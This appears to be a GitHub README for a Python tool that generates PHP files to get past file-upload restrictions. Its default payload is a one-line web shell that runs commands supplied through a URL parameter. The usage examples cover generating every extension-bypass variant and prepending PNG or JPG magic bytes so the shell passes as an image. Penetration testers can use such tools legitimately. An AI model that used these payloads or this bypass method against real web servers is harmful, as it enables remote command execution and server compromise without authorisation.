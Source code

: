 # generate-file-upload
Generate some payload to bypass restriction when you perform a file upload

```
python upfile.py
```
Generate in `Payloads/` all extension for PHP

Default name : `payload`

Default file : `PHP`

Default payload : `<?php system($_GET["cmd"]); ?>`

-----

## Exemple of usage :
```
python upfile.py -b
```
Generate all bypass for PHP


```
python upfile.py -n test -p test -ext php
```
Generate file named `test.php` which contain `test`


```
python upfile.py -b -m png
```
Generate all files bypass for PHP, which contain `magicNumber + payload`


-----

## Options
```
usage: upfile.py [-h] [-d] [-p PAYLOAD] [-f {php}] [-ext EXTENSION] [-b] [-n NAME] [-m {png,jpg}]

Generate some payload to bypass restriction when you perform a file upload

options:
  -h, --help            show this help message and exit
  -d, --debug           Seen the debug to see the process
  -p PAYLOAD, --payload PAYLOAD
                        The payload in the files
  -f {php}, --file {php}
                        The type of the files
  -ext EXTENSION, --extension EXTENSION
                        Generate the payload with specific extension
  -b, --bypass          Bypass the restriction
  -n NAME, --name NAME  Name of the file
  -m {png,jpg}, --magic {png,jpg}
                        Magic Header
   ```                     
